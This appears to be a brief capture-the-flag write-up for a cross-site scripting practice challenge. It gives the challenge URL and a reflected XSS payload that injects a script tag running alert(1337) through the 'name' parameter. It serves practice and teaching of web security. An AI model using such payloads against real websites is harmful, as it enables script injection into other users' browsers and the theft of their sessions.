 Chall Url:http://www.zixem.altervista.org/XSS/3.php?name=
Payload:http://www.zixem.altervista.org/XSS/3.php?name=%0a%3Cscript%3Ealert(1337)%3C/script%3E
![](https://user-images.githubusercontent.com/25671488/61375863-8ed32b80-a8bd-11e9-8113-b106d389f47e.png)
